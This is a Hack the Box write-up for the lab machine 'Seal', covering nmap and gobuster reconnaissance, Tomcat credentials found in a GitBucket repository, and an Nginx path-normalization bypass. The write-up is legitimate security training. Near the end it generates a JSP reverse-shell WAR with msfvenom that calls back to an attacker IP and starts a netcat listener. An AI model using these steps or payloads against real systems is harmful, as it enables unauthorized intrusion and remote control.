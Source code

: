 # Hack the Box - Seal

```CSS
Machine IP: 10.10.10.250 - Linux
Difficulty: Medium
Category: OSCP Preparation
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan (TCP)
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.250 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.250
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/10%OT=22%CT=1%CU=31966%PV=Y%DS=2%DC=I%G=Y%TM=645BC96
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.26 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,43,8080 10.10.10.250 -oN services.nmap

Nmap scan report for 10.10.10.250                                                    
Host is up (0.17s latency).                                                          
                                                                                     
PORT     STATE  SERVICE    VERSION                                                   
22/tcp   open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 4b894739673d07315e3f4c27411ff967 (RSA)                                      
|   256 04a74f399565c5b08dd5492ed8440036 (ECDSA)                          
|_  256 b45e8393c54249de7125927123b18554 (ED25519)                                   
43/tcp   closed whois                                                                
8080/tcp open   http-proxy                                                           
|_http-title: Site doesn't have a title (text/html;charset=utf-8).                   
| http-auth:                                                                         
| HTTP/1.1 401 Unauthorized\x0D                                                      
|_  Server returned status 401 but no WWW-Authenticate header.                       
| fingerprint-strings:
|   FourOhFourRequest:                                                               
|     HTTP/1.1 401 Unauthorized
|     Date: Wed, 10 May 2023 16:45:21 GMT                                                                                                                                 
|     Set-Cookie: JSESSIONID=node04mlz2fwh9s4j119zpsysuahz32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Wed, 10 May 2023 16:45:19 GMT
|     Set-Cookie: JSESSIONID=node01rozln8ivln9dyfyvnqefnxwz0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 10 May 2023 16:45:20 GMT
|     Set-Cookie: JSESSIONID=node07vji2je08bptb0xv5r688l1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version                                                                                                                                        
|     Content-Type: text/html;charset=iso-8859-1                                                                                                                          
|     Content-Length: 58                                                                                                                                                  
|     Connection: close                                                                                                                                                   
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service
 :
SF-Port8080-TCP:V=7.93%I=7%D=5/10%Time=645BCA37%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Wed,\x2010\x2
SF:0May\x202023\x2016:45:19\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node01rozl
SF:n8ivln9dyfyvnqefnxwz0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu
SF:,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html
SF:;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,107,"HTT
SF:P/1\.1\x20200\x20OK\r\nDate:\x20Wed,\x2010\x20May\x202023\x2016:45:20\x
SF:20GMT\r\nSet-Cookie:\x20JSESSIONID=node07vji2je08bptb0xv5r688l1m1\.node
SF:0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x200
SF:0:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x2
SF:0GET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:AD,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/htm
SF:l;charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r
SF:\n\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version<
SF:/pre>")%r(FourOhFourRequest,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDat
SF:e:\x20Wed,\x2010\x20May\x202023\x2016:45:21\x20GMT\r\nSet-Cookie:\x20JS
SF:ESSIONID=node04mlz2fwh9s4j119zpsysuahz32\.node0;\x20Path=/;\x20HttpOnly
SF:\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent
SF:-Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(S
SF:ocks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConte
SF:nt-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCo
SF:nnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x2
SF:0Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character
SF:\x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCont
SF:ent-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20
SF:400</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.80 seconds
```

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

## Port 80 HTTP
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ff70451-a9c1-4926-ae42-8bc7911217b0)

## Port 8080 HTTP Proxy
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67431678-77dc-4620-80e9-211c14b6ce97)

---

# Content Discovery
  - Brute-force common directories and files.
```CSS
▶ gobuster dir --url https://10.10.10.250 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/79031ee3-0750-4358-9168-c143f1af023d)

```CSS
▶ gobuster dir --url https://10.10.10.250/admin --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a544a2ee-1518-480a-aa86-58c46c4780b0)

```CSS
▶ gobuster dir --url https://10.10.10.250/host-manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/76aff29e-a205-4b61-a672-4d3a4e38ad50)

```CSS
▶ gobuster dir --url https://10.10.10.250/manager --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --threads 25 --no-tls-validation
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/afd4b4d6-d29a-495d-bc6f-734ae67e3d2e)

---

# Git Bucket
  - Logging in with Git Bucket default credentials failed.
  - Git Bucket default credentials: `root:root`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ceaddd26-18cb-4181-a557-fb557966d987)

  - Register a new account on Git Bucket.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3291eb50-58eb-4360-abbb-95612af30e28)

  - Login with the account credentials.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3299e3ed-1b97-49ff-a439-2cc01bdac7b8)

  - Read permission on two repositories. The infra repository reveals ansible templates to configure tomcat.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4bdb75a0-c92e-4bf3-bd5b-1a72c5b9a1d7)

  - Developer Comments.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a7dc4650-7d37-42ea-a77c-530f4cd55c0f)

  - Tomcat Credentials.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/621c388b-8930-4405-a3f9-16617938e594)
Credentials: `tomacat:42MrHBf*z8{Z%`

## Nginx Path Normalization

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2e3a3cc4-9461-4747-9b1d-7fe2669ab38e)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/82189bdc-339e-46c6-9bcf-0f2fdc4fec29)

```CSS
▶ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=31337 -f war > shell.war
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/eb471ef1-f23b-4b56-a8fc-424a06a194f9)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d47d7d9-fe6e-4123-8817-0a2b81465e48)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9caf8966-f200-4f8f-bedf-0203debb43fe)

  - Bypassing 403 forbidden.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fbb10f9-5126-44ee-a20c-5b36595068bc)

  - Shell Upload.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6ac092b4-8ad5-4a96-b1bc-b15f2c9b094f)

  - Invoke the Shell.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6aee2032-26d2-4e8d-a0d9-eab44c125987)

  - Start `netcat` listener for reverse shell.
```CSS
▶ nc -nlvvp 31337
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/04bd1f02-9798-44e7-a151-60df96e5c108)
